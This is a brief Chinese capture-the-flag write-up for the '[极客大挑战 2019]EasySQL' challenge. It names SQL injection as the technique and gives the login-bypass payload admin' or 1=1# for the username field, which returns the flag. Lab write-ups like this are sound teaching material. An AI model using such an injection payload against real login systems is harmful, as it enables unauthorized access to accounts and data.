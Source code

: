 # [极客大挑战 2019]EasySQL

## 知识点

`sql注入`

## 解题

![](./img/Easy-1.png)

在`用户名`处尝试万能密码

```sql
admin' or 1=1#
```

即可拿到`flag`

